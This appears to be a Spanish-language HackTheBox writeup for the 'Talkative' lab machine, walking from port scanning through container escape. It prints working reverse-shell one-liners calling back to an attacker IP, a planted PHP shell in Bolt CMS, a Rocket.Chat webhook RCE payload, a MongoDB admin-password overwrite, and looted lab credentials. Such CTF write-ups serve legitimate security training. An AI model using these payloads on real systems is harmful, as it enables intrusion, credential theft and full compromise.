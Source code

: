 ```yaml
---
title: Talkative hackthebox writeup
author: HackerCloud
date: 2022-08-30 00:00:00 +0800
categories: [Hackthebox, machine, writeup]
tags: [Hackthebox, writeup]
pin: false
image:
  path: ../../assets/img/commons/talkative-writeup/Talkative.png
  width: 800
  height: 500
  alt: Banner Talkative
---
```


Empezamos con el escaneo de nmap sobre los puertos de la máquina

```bash
❯ sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.11.155 -oG allPorts
Scanning 10.10.11.155 [65535 ports]
Discovered open port 8080/tcp on 10.10.11.155
Discovered open port 80/tcp on 10.10.11.155
Discovered open port 8081/tcp on 10.10.11.155
Discovered open port 3000/tcp on 10.10.11.155
Discovered open port 8082/tcp on 10.10.11.155
Nmap scan report for 10.10.11.155
PORT     STATE SERVICE         REASON
80/tcp   open  http            syn-ack ttl 62
3000/tcp open  ppp             syn-ack ttl 62
8080/tcp open  http-proxy      syn-ack ttl 62
8081/tcp open  blackice-icecap syn-ack ttl 62
8082/tcp open  blackice-alerts syn-ack ttl 62
```

Con curl podemos ver un dominio

```html
❯ curl 10.10.11.155
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://talkative.htb">here</a>.</p>
<hr>
</body></html>
```

En el puerto 80 no encontramos nada interesante, podemos ir al puerto 8080 a ver su contenido

Podemos ver que hay una aplicación de Hoja de cálculo normal, tenemos disponible un editor que nos permite ejecutar código, vamos a intentar ejecutar una reverse shell

En este caso voy a usar esta reverse shell `system('bash -c "bash -i >& /dev/tcp/10.10.14.75/1234 0>&1"')`

Y nos llega una shell, se puede ver que es un contenedor, pero podemos ver cosas

```bash
❯ sudo nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.11.155] 45940
root@b06821bbda78:/# whoami
whoami
root
root@b06821bbda78:/# hostname -I
hostname -I
172.18.0.2 
root@b06821bbda78:/#
```

Encontramos el archivo `/root/bolt-administration.omv`, no tenemos nada dentro de la máquina para poder descargar este archivo en nuestra máquina, podemos usar pwncat-cs para descargarlo

Una vez descargado podemos ver que contiene usuarios y contraseñas

~~~
matt
janit
saul
jeO09ufhWD<s
bZ89h}V<S_DA
)SQWGm>9KHEA
~~~

Dentro de http://talkative.htb hay un directorio bolt, el cual contiene un Login, podemos probar las crendenciales que hemos encontrado

El usuario admin funciona con la contraseña `jeO09ufhWD<s`  

Una vez iniciada la sesión podemos ver un apartado de configuración, dentro hay un apartado llamado `All Configuration Files`, vamos a ver su contenido

Podemos ver un archivo llamado `Bundle.php` , le damos click y metemos una reverse shell en php dentro

Nos ponemos en escucha con Netcat y nos llega una reverse shell como www-data, podemos ver que estamos en un contenedor

```bash
❯ sudo nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.11.155] 57846
www-data@b922262b694b:/var/www/talkative.htb/bolt/public$ hostname -I
hostname -I
172.17.0.15 
```

Este contenedor no nos da mucha información, podemos probar las credenciales encontradas anteriormente por SSH

```bash
www-data@b922262b694b:/var/www/talkative.htb/bolt/public$ ssh saul@172.17.0.1
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
saul@172.17.0.1 password: jeO09ufhWD<s
saul@talkative:~$ whoami
saul
saul@talkative:~$ cat user.txt 
cd8c******cb258c950d9edcc065
```

Con pspy descubrimos este proceso

```bash
CMD: UID=0    PID=4894   | /bin/sh -c python3 /root/.backup/update_mongo.py
```

```bash
saul@talkative:~$ netstat -nat
tcp        0      0 172.17.0.1:43752        172.17.0.2:27017        TIME_WAIT
```

Vemos el puerto de mongo abierto, por defecto es el 27017

Con [chisel](https://github.com/jpillora/chisel) tunelizamos la conexión hacia nuestra máquina

```bash
❯ chisel server --reverse --port 8000
2022/08/30 17:21:20 server: Reverse tunnelling enabled
2022/08/30 17:21:20 server: Fingerprint 4iFocLbXWmRvOoiAYCwK9t8TfvcH6MJOSR1ngLYhgoM=
2022/08/30 17:21:20 server: Listening on http://0.0.0.0:8000
```

```bash
saul@talkative:~$  ./chisel client 10.10.14.75:8000 R:27017:172.17.0.2:27017
2022/08/30 15:25:37 client: Connecting to ws://10.10.14.75:8000
2022/08/30 15:25:37 client: Connected (Latency 38.916105ms)
```

Ahora podemos intentar conectarnos a mongoDB e intentar cambiar la contraseña del usuario administrador de la web

```bash
rs0 [direct: primary] test> show databases
admin   104.00 KiB
config  124.00 KiB
local    11.69 MiB
meteor    4.91 MiB
rs0 [direct: primary] test> use meteor
switched to db meteor
rs0 [direct: primary] meteor> db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$n9CM8OgInDlwpvjLKLPML.eizXIzLlRtgCh3GRLafOdR9ldAUh/KG" } } } })
{
  acknowledged: true,
  insertedId: null,
  matchedCount: 1,
  modifiedCount: 1,
  upsertedCount: 0
}
```

Ahora como tenemos tunelizada la conexión tenemos que meternos por el puerto 8000

Podemos ir al apartado de Administración>integraciones para crear una nueva integración

Nueva integración>WebHook entrante

Habilitado: Verdadero
Nomb: Shell
Canal: #general
Publicar como: admin
script habilitado: verdadero

Vamos a usar la primera línea de este [exploit](https://github.com/CsEnox/CVE-2021-22911/blob/main/exploit.py) 

```bash
const require = console.log.constructor('return process.mainModule.require')();
require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.14.75/1234 0>&1"');
```

Lo guardamos y hacemos un curl a la URL con nuestro Token

```bash
❯ curl http://talkative.htb:3000/hooks/hA7ZNgGYHtRhpYBjH/CsNw6amXPMXR4PH9SANT7cyrFaDwhMpLNiiCwHzX9gCfwXcc
{"success":false}
```

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.11.155] 57468
root@c150397ccd63:/app/bundle/programs/server# hostname -I
hostname -I
172.17.0.3
```

Ahora con pwncat-cs un cdk podemos conseguir archivos de la máquina real, podemos leer directamente la flag.

```bash
❯ pwncat-cs -lp 1234
[17:41:55] Welcome to pwncat 🐈!                                                                                                               
(local) pwncat$ upload cdk /root/cdk
/root/cdk
[17:42:12] uploaded 11.91MiB in 6.67 seconds                                                                                                      
(local) pwncat$ back
(remote) root@c150397ccd63:/app/bundle/programs/server# cd /root
(remote) root@c150397ccd63:/root# chmod +x cdk                                                                                                               
(remote) root@c150397ccd63:/root# ./cdk run cap-dac-read-search /root/root.txt                                                                               
Running with target: /root/root.txt, ref: /etc/hostname
57ebcfafa23a47da6507a95d1307beff
(remote) root@c150397ccd63:/root#
```

